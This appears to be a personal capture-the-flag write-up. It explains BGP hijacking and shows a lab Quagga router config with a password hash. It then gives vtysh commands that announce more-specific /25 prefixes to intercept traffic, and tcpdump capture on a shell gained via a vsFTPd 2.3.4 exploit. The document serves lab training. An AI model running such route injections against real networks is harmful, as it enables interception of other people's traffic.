 ### What Is BGP Hijacking?

BGP hijacking occurs when an AS announces IP address spaces belonging to another AS. This announcement attracts traffic meant for that IP address range.

Other common names for BGP hijacking are:

- **Prefix** hijacking.
- **Route** hijacking.
- **IP** hijacking.

BGP hijacking occurs when someone or something corrupts the routing tables maintained by AS routers. This corruption enables a backbone router to improperly advertise as having the most efficient route to a network.

Since BGP always favors the shortest path to the desired IP address, anyone looking to cause a BGP hijack must create a route announcement that either:

- Provides a more specific route with a smaller range of IP addresses than other ASes.
- Offers a shorter route to certain blocks of IP addresses.

Both strategies require the hacker to either control an AS router or compromise one of approx. 80,000 currently operational ASes. This process is easier said than done, which is why most malicious BGP hijacks are the work of highly skilled and well-funded hacker groups.

BGP hijacking enables attackers to reroute Internet traffic to the wrong destination or route. Rerouting traffic enables a threat actor to intercept, spy on, or tamper with transmitted data.

![How BGP hijacks work](https://phoenixnap.com/blog/wp-content/uploads/2023/11/how-bgp-hijacks-work.jpg)

The easiest way to understand BGP hijacking is to compare it to someone secretly changing all the signs on a stretch of freeway and rerouting traffic onto incorrect exits.

![[Pasted image 20240417143321.png]]

### Quagga

You saw “quagga” mentioned in the Router exploration section , but what is quagga ?  
Basically quagga is a routing software and since quagga is installed on this host then most likely we are going to perform bgp-hijacking or route-hijacking.

You can see there are two configuration files:

#### /etc/quagga/bgpd.conf

```
!
hostname router1
password a0ceca89b47161dd49e4f6b1073fc579
log stdout
!
debug bgp updates
!
router bgp 60001
 bgp log-neighbor-changes
 bgp router-id 1.1.1.1
 network 172.16.1.0/24
 
 neighbor 172.16.12.102 remote-as 60002
 neighbor 172.16.12.102 weight 100
 neighbor 172.16.12.102 soft-reconfiguration inbound
 neighbor 172.16.12.102 prefix-list LocalNet in
 
 neighbor 172.16.31.103 remote-as 60003
 neighbor 172.16.31.103 weight 100
 neighbor 172.16.31.103 soft-reconfiguration inbound
 neighbor 172.16.31.103 prefix-list LocalNet in
!
# Deny any changes to routing to the local network
ip prefix-list LocalNet seq 5 deny 172.16.1.0/24 le 32
ip prefix-list LocalNet seq 10 permit 0.0.0.0/0 le 32
!
line vty
!
end
#

```

This router is AS 60001
There are another 2 AS:

60002 and 60003

### Configuration with VTYSH

VTYSH provides a unified command-line interface for managing multiple network services and protocols, such as routing protocols (e.g., BGP, OSPF) and network configuration settings.

When you enter the "vtysh" command, you're essentially accessing a shell environment where you can interact with the networking device and configure various aspects of its operation, such as routing tables, network interfaces, and protocol settings.

Run:

```
$ vtysh
```

router1.ctx.ctf# $ 

 Once into vtysh run the following to see the neighbors:

```
 $ show bgp neighbors

```

> BGP neighbor is 172.16.12.102, remote AS 60002, local AS 60001, external link
> ...
> BGP neighbor is 172.16.31.103, remote AS 60003, local AS 60001, external link
> ...


#### Routing tables

Run:

```
 $ show ip bgp neighbors 172.16.12.102 advertised-routes
```

> ![[bgp.png]]

You can see there are two networks 172.16.1.0/24 and 172.16.3.0/24, so if you get connected to the 172.16.2.0/24 you'd intercept all traffic.

Run the following commands:

```
$ configure terminal
router1.ctx.ctf(config)# $ router bgp 60001
router1.ctx.ctf(config-router)# $ network 172.16.2.0/25
router1.ctx.ctf(config-router)# $ network 172.16.3.0/25

```

Exit the terminal with the two `exit` commands.

See how the configuration has changed:

```
router1.ctx.ctf# $ show ip bgp neighbors 172.16.12.102 advertised-routes
```

![[bgp1.png]]

You can see there's a new AS 60003. 

> [!NOTE] Address 172.16.2.0/25
>   
The network address "172.16.2.0/25" represents a subnet with the following characteristics:

> - Network Address: 172.16.2.0
> - Subnet Mask: 255.255.255.128 (/25 in CIDR notation)
> - Usable IP Range: 172.16.2.1 to 172.16.2.126
> - Broadcast Address: 172.16.2.127
> 
> In CIDR notation (/25), the subnet mask has 25 leading bits set to 1, indicating the network portion of the address, and the remaining 7 bits set to 0, allowing for 128 possible host addresses in the subnet.
> 
> This subnet falls within the private IP address range defined by RFC 1918, commonly used in local area networks (LANs) for internal communication.



![[Diagram1.svg]]


### Capturing packets with tcpdump


You're telling `tcpdump` to capture packets on the `eth0` interface and print each packet's content in ASCII format, including both the packet header and payload.

- The `-i` option, it specifies the network interface to capture packets from. In your command, `eth0` is the network interface specified.

- The `-A` option tells `tcpdump` to print each packet in ASCII format, displaying both the packet's header and its payload as ASCII characters.

#### Run tcdump on the vsFTPd 2.3.4 Exploitation shell

```
$ tcpdump -i eth0 -A

```


[[TCP flag]]
[[UDP flag]]
